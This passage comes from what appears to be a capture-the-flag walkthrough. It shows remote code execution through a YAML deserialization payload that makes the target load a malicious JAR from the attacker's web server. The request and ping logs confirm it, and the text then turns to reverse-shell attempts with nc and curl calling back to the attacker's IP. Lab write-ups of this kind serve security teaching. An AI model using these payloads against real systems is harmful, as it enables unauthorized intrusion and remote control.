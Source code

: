
The resulting JAR file has a similar structure as was being requested across multiple requests in the first attempt:

    oxdf@parrot$ jar -tf ping.jar 
    META-INF/
    META-INF/MANIFEST.MF
    artsploit/
    artsploit/AwesomeScriptEngineFactory.class
    artsploit/AwesomeScriptEngineFactory.java
    META-INF/services/
    META-INF/services/javax.script.ScriptEngineFactory
    oxdf@parrot$ cat src/META-INF/services/javax.script.ScriptEngineFactory 
    artsploit.AwesomeScriptEngineFactory
    

I’ll move into my directory hosted by the Python webserver, and send the payload:`ping.jar`

    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://10.10.14.7/ping.jar"]
      ]]
    ]
    

First it’s requested from the HTTP server (twice for some reason):

    10.10.10.227 - - [15/Feb/2021 07:16:58] "GET /ping.jar HTTP/1.1" 200 -
    10.10.10.227 - - [15/Feb/2021 07:16:58] "GET /ping.jar HTTP/1.1" 200 -
    

Then it pings my VM:

    oxdf@parrot$ sudo tcpdump -i tun0 -n icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    07:16:58.677743 IP 10.10.10.227 > 10.10.14.7: ICMP echo request, id 3, seq 1, length 64
    07:16:58.677755 IP 10.10.14.7 > 10.10.10.227: ICMP echo reply, id 3, seq 1, length 64
    

That’s RCE.

### Rev Shell

Getting a reverse shell from here wasn’t trivial. I think this is typically of Java. I tried several Java reverse shells, and putting typical Bash and based shells into the . Nothing worked.`nc``Runtime.getRuntime().exec()`

Stepping back, I tried just putting into , and it connected back. So it isn’t a firewall, but rather something about how Java is running the reverse shells. What about ? I’ll modify the Java source to issues , recompile / re-Jar, and trigger, and it works:`nc 10.10.14.7 443``Runtime.getRuntime().exec()``curl``curl http://10.10.14.7`

    10.10.10.227 - - [15/Feb/2021 07:34:28] "GET /rev.jar HTTP/1.1" 200 -
    10.10.10.227 - - [15/Feb/2021 07:34:28] "GET /rev.jar HTTP/1.1" 200 -
    10.10.10.227 - - [15/Feb/2021 07:34:29] "GET / HTTP/1.1" 200 -
    

I’ve run into this before. Java has issues when you include pipes or redirects in the execution payloads. The best way around this is to do it in steps:
